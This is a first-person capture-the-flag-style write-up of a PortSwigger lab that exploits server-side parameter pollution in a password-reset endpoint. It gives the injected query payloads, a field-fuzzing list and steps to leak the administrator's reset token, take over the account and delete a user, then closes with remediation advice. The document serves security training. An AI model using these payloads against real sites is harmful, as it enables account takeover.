



# Tricking the Backend into Spilling the Admin Reset Token

## What I Was Up Against

This lab was about Server-Side Parameter Pollution (SSPP) in a query string. The challenge was to exploit the password reset functionality to steal the administrator's password reset token, reset their password, and then delete the user `carlos`. I knew this one would be a multi-step puzzle, and I was ready for it.

- **Category:** API Testing
- **Lab Name:** Exploiting Server-Side Parameter Pollution in a Query String
- **Difficulty:** Practitioner
- **Status:** Solved

---

## My Objective

Exploit a Server-Side Parameter Pollution (SSPP) vulnerability in the password reset functionality to obtain the administrator's password reset token, reset the administrator account password, and delete the user `carlos`.

---

## How the Backend Let Me In

The application's password reset endpoint internally constructs API requests using user-controlled input. By injecting URL-encoded query delimiters and truncation characters, I was able to manipulate backend parameters and access hidden fields that should not be exposed.

This allowed me to retrieve sensitive information such as password reset tokens.

---

## My Step-by-Step Attack

### Step 1: Trigger Password Reset

I navigated to the password reset functionality and submitted a reset request for:

```text
administrator
```

I captured the request:

```http
POST /forgot-password
```

#### Evidence


---

### Step 2: Verify Username Validation

I modified the username parameter:

```text
administratorx
```

The server returned:

```json
Invalid username
```

#### Evidence



---

### Step 3: Confirm Parameter Pollution

I injected a URL-encoded ampersand:

```text
username=administrator%26x=y
```

Response:

```json
Parameter is not supported
```

This indicated the backend interpreted:

```text
&x=y
```

as a separate parameter.

#### Evidence


---

### Step 4: Discover Hidden Parameters

I injected an additional parameter:

```text
username=administrator%26field=x%23
```

Response:

```json
Invalid field
```

This revealed the existence of a backend parameter named:

```text
field
```

#### Evidence


---

### Step 5: Enumerate Valid Field Values

I sent the request to Burp Intruder and fuzzed the value of the `field` parameter.

My payload list:

```text
username
email
password
reset_token
token
id
name
```

Results showed several valid fields returning HTTP 200 responses.

#### Evidence



---

### Step 6: Extract Administrator Reset Token

I modified the request:

```text
username=administrator%26field=reset_token%23
```

The response returned the administrator's password reset token.

#### Evidence



---

### Step 7: Reset Administrator Password

I used the extracted token with:

```text
/forgot-password?reset_token=<TOKEN>
```

I set a new password for the administrator account.

---

### Step 8: Login as Administrator

I authenticated using:

```text
Username: administrator
Password: <new password>
```

I accessed the administrator panel.

---

### Step 9: Delete Carlos

I navigated to the Admin Panel and deleted:

```text
carlos
```

The lab was successfully solved.

---

## Final Result

The vulnerability allowed backend parameter manipulation through URL query pollution, leading to disclosure of the administrator's password reset token and full account compromise.

### Evidence


---

## Why This Is Dangerous

This vulnerability can result in:

- Disclosure of sensitive backend fields
- Password reset token leakage
- Account takeover
- Privilege escalation
- Administrative access compromise

---

## How I Would Fix It

- Properly sanitize user-controlled input.
- Reject unexpected query parameters.
- Use parameterized backend API calls.
- Validate and whitelist accepted parameters.
- Avoid constructing internal API requests using raw user input.
- Implement strict server-side input validation.

---

## References

- PortSwigger Web Security Academy
- Server-Side Parameter Pollution (SSPP)
- OWASP API Security Top 10
